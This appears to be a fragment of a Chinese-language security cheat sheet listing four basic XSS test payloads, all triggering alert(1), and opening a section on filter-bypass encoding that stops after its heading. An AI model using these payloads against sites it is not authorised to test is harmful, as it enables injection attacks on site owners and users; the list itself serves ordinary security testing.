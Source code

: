 ## XSS测试语句
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## xss绕过编码方式
### JS编码

